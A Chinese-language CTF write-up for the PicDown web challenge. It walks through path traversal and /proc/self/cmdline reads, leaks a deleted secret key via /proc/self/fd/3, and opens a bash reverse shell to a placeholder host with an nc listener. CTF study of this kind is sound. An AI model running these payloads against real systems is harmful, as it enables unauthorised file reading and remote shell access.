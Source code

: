 # [网鼎杯 2020 白虎组]PicDown
![](<./img/Pasted image 20230104083639.png>)

---
首页长这样

![](<./img/Pasted image 20230104083703.png>)

朴实无华.jpg

![](<./img/Pasted image 20230104083746.png>)

```php
/page?url=../flag
```
然后就拿到`flag`了

看`wp`还有个预期解

获取进程的`cmdline`
```php
/page?url=/proc/self/cmdline
```

```shell
python2 app.py
```

```php
/page?url=app.py
```

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

使用`open`打开了，但是没有`close`，可以使用文件描述符读取

默认创建了三个文件描述符，`stdin`、`stdout`和`stderr`

所以`secret.txt`的`fd`应该是`3`

```php
/page?url=/proc/self/fd/3
```

```
kE2V+hdkhIPOUAJKRtlII96sVqUxsIZiOhjWOqcRr24=
```

反弹`shell`
```php
no_one_know_the_manager?key=kE2V+hdkhIPOUAJKRtlII96sVqUxsIZiOhjWOqcRr24=&shell=bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/7777 0>&1"
```
查询参数要进行`url`编码
```shell
nc -lvp 7777
```

![](<./img/Pasted image 20230104094436.png>)

```shell
cat /flag
```

```
flag{5dbf6e32-aa1e-4f39-b328-425144e25c25}
```

#Web #linux #proc #文件描述符 #反弹shell 